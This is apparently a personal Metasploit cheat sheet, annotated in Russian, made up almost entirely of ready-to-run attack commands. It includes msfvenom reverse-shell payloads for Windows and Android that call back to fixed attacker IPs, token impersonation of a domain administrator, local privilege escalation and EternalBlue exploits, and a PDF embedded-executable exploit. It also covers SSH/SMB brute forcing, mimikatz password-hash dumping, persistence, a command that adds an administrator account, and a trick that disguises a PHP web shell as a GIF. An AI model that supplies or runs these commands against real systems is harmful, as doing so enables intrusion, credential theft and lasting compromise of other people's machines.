 # MetaSploit

https://habr.com/ru/companies/npoechelon/articles/347702/  (описание работы)

searchsploit desctop control   поиск эксплойта для названия

# расширение incognito для работы с токенами
в метерпретер: 
   
     load incognito
   
     list_tokens -u
   
     impersonate_token DC\\Administrator
   
# использование эксплйтов ядра
Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

Detection & Exploitation

Kali VM

1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
5. In Metasploit (msf > prompt) type: set LPORT 5555
6. In Metasploit (msf > prompt) type: run

# Содаем исполнимый файл для виндовс

msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe

# Создаем реверс шелл для виндовс

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 (только дописать -->     Invoke-PowerShellTcp -Reverse -IPAddress 10.18.35.17 -Port 4545)

https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

https://www.revshells.com/

c meterpreter сессией

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe

проверено для netcat

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.35.17 LPORT=53 -f exe -o reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер

rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set payload windows/x64/meterpreter_reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

Миграция в процесс

migrate -N winlogon.exe

Для АНДРОИД

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу


# Для брута 
use auxiliary/scanner/ssh/ssh_login

use auxiliary/scanner/smb/smb_login
set rhost
set 

# МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam

Поиск уязвимостей ядра

(в метерпретер-сессии)

run post/multi/recon/local_exploit_suggester


# eternalblue в метасплойт

use exploit/windows/smb/ms17_010_eternalblue

   show payloads

set payload windows/x64/shell/reverse_tcp

# из шелла в метерпретер

post/multi/manage/shell_to_meterpreter

# Beб деливери 

use exploit/multi/script/web_delivery

set target 2

set payload windows/meterpreter/reverse_http

set lhost 1221321321
set lport 1231231

run

# настроить постоянное присутствие 

https://www.offsec.com/metasploit-unleashed/meterpreter-service/


# Переделка файла php в gif

echo -e "GIF89a1\n\n$(cat shell.php)" > shell.gif

